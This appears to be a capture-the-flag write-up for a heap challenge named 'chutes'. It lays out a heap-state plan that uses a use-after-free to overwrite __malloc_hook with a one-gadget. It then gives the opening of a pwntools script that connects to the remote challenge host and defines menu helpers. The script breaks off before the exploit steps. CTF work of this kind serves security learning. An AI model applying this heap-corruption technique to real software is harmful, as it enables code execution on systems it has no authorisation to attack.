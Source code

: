 - [0, 1, 2, 3, 4, 5, 6, 7, 8] at 1 
  - allocate one chunk
- [3, 4, 5, 6, 7, 8] at 1, [0, 1, 2] at 2
  - allocate two chunk
- [3, 4, 5, 6, 7, 8] at 1, [1, 2] at 2,  0 at 5
  - allocate three chunk
- [1, 2, 3, 4, 5, 6, 7, 8] at 2, [0] at 5
  - allocate two chunk
  - free 1
- [1, 2, 3, 4, 5, 6, 7, 8] at 2, [0] leave but ret to 5
  - allocate one chunk
  - free 3 (UAF) -> free 1
- [8, 9] at 2, [0, 1, 2, 3, 4, 5, 6, 7] at 5
  - allocate one chunk
  - free 3 (UAF) -> __malloc_hook
- [8, 9] at 2, [1, 2, 3, 4, 5, 6, 7] at 5, [9] at 6
  - __malloc_hook 
- [8] at 2, [1, 2, 3, 4, 5, 6, 7] at 5, [9] at 6, [0] at 10
  - 10 is __malloc_hook - 4
- [1, 2, 3, 8] at 5, [0, 4, 5, 6, 7, 9] at 10
  - overwrite malloc_hook to one gadget
- [1, 2, 3] at 5, [0, 4, 5, 6, 7, 8, 9] at 10
  - overwrite malloc_hook to one gadget
- [1, 2, 3] at 5, [4, 5, 6, 7, 8, 9] at 10, [0] at 14 hit chutes to 0! 
  - clear rdx=0, trigger one gadget 

```python
from pwn import *
leak = lambda name,addr: log.success('{0}\t--->\t{1}'.format(name, hex(addr)))

binary = './chutes'
libc = './libc.so-3.6'
context.terminal = ['tmux', 'splitw', '-h']
context.binary = binary
context.log_level='debug'
# p = process(binary)
p = remote("mc.ax",31326)
elf = ELF(binary, checksec=False)
libc = ELF(libc, checksec=False)

def change_maps():
    p.sendlineafter("(y/n): ", "y")

    p.sendlineafter(": ", "10 4") # to uaf
    p.sendlineafter(": ", "14 0") # to clear rdx
    p.sendlineafter(": ", "30 21")
    p.sendlineafter(": ", "40 31")
    p.sendlineafter(": ", "50 41")

    p.sendlineafter(": ", "6 99") # to leak
    p.sendlineafter(": ", "33 97")
    p.sendlineafter(": ", "48 62")
    p.sendlineafter(": ", "68 72")
    p.sendlineafter(": ", "78 93")    

def turn(spin, mark=None, see='n'): 
    if mark != None:
        p.sendlineafter(": ", "y")
        p.sendlineafter(": ", mark)
    else:
        p.sendlineafter(": ", "n")        
    p.sendlineafter("): ", str(spin))
    p.sendlineafter("): ", see)    

```